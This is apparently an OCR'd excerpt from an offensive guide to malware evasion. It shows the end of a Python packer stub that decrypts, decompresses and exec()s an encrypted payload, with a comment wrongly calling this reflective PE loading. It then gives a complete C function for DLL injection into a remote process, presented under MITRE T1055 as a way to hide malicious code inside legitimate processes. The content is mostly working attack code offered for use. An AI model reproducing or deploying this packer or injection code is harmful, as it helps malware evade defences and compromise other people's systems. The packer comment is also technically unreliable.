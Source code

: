 ```python
encrypted_data = {encrypted}

cipher = Fernet(key)
compressed = cipher.decrypt(encrypted_data)
original = lzma.decompress(compressed)

# Reflectively load PE
exec(original)
'''
    
    with open(output_exe, 'w') as f:
        f.write(stub)
```

---

## 2. Runtime Evasion

### 2.1 Process Injection (T1055)

Inject malicious code into legitimate processes to hide execution.

#### DLL Injection
```c
// Classic DLL injection into remote process
BOOL inject_dll(DWORD pid, const char* dll_path) {
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
    if (!hProcess) return FALSE;
    
    // Allocate memory in target process
    LPVOID pRemoteBuf = VirtualAllocEx(hProcess, NULL, strlen(dll_path) + 1,
                                       MEM_COMMIT, PAGE_READWRITE);
    
    // Write DLL path to target process
    WriteProcessMemory(hProcess, pRemoteBuf, dll_path, strlen(dll_path) + 1, NULL);
    
    // Get LoadLibraryA address
    HMODULE hKernel32 = GetModuleHandleA("kernel32.dll");
    LPVOID pLoadLibrary = GetProcAddress(hKernel32, "LoadLibraryA");
    
    // Create remote thread to call LoadLibraryA(dll_path)
    HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0,
                                        (LPTHREAD_START_ROUTINE)pLoadLibrary,
                                        pRemoteBuf, 0, NULL);
    
    WaitForSingleObject(hThread, INFINITE);
    
    CloseHandle(hThread);
    CloseHandle(hProcess);
    return TRUE;
}
```
